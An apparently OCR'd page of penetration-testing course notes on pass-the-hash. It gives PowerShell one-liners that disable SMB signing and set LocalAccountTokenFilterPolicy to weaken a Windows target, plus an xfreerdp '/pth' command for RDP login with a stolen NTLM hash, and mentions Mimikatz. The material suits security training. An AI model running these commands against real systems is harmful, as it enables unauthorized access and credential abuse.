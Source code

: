 The two registry entries needed on the target for this to be successful are: 

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System

Add a new DWORD (32-bit) named LocalAccountTokenFilterPolicy and set its value to 1


HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters

Add a new DWORD (32-bit)named RequireSecuritySignature and set its value to 0


Nonetheless, if we already have a session on the target as an admin, and would like to modify
those registry settings to help us with the attack, we can do so with a couple simple PowerShell
one-liners 


PS C:\> Set-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LocalAccountTokenFilterPolicy -Value 1 -Type DWord


PS C:\> Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Services\LanManserver\Parameters -Name RequireSecuritySignature -Value 0 -Type DWord


The previous registry cahnges, particularly the LocalAccountTokenFilterPolicy setting, essentially
allow non RID-500 user accounts (users in the local admin group for instance) to successfully
pass-the-hash in some cases


# Pass the hash over RDP (xfreerdp)

In addition to the traditional methods of pass the hash techniques, if we find ourselves in a
situation where we have obtained an NTLM hash and would like to use it to log onto a
remotedesktop service without the need to provide actual credentials, we can do that with an RDP
client available for Linux known as xfreerdp, and comes preinstalled on Kali Linux


xfreerdp --help 

Using the "/pth" switch and xfreerdp, we can pass an NTLM hash to a remote desktop server with
the following command 

xfreerdp /u:admin /d:foocorp /pth:hashgoeshere /v:targetIP



# Cracking Hashes 

Once we dump the hashes, we can try to crack them and obtain passwords that are used to login on
active services running on the target

We dont need to cover password cracking in depth here since it is covered in System Security



# Mimikatz

Before seeing how to work with services and users, it is important to know that we may be able to
get plaintext passwords from the exploited machine using Mimikatz
